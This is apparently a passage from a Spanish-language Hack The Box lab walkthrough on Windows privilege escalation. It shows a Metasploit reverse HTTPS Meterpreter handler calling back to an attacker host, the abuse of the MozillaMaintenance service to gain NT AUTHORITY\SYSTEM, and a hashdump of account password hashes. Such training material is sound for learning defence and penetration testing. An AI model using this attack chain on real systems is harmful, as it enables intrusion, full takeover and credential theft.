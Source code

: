 ```r
Metasploit tip: Use the resource command to run commands from a file

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
resource (handler.rc)> set LHOST 10.10.14.3
LHOST => 10.10.14.3
resource (handler.rc)> set LPORT 8443
LPORT => 8443
resource (handler.rc)> exploit
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
```

### Starting the Service

Inicia el servicio, y deberíamos obtener una sesión como **NT AUTHORITY\SYSTEM**.

```r
C:\htb> net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

### Receiving a Meterpreter Session

Recibiremos un error al intentar iniciar el servicio, pero aún recibiremos una llamada de vuelta una vez que el binario de **Meterpreter** se ejecute.

```r
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
[*] https://10.10.14.3:8443 handling request from 10.129.43.13; (UUID: syyuxztc) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.3:8443 -> 10.129.43.13:52047) at 2021-05-14 13:38:55 -0400


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
```
